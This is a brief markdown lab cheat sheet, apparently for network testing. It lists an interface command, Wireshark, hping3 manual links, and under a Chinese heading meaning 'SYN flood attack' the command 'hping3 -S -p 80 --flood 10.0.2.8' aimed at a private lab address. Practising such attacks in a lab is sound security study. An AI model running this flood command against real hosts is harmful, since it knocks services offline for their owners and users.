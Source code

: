 # 
```
ip -4 a
```
#
```
wireshark &

```
# hping3
```
https://man.linuxde.net/hping3
https://man.linuxde.net/hping3
```
### hping3 syn flood攻擊
```
hping3 -S -p 80 --flood 10.0.2.8

```
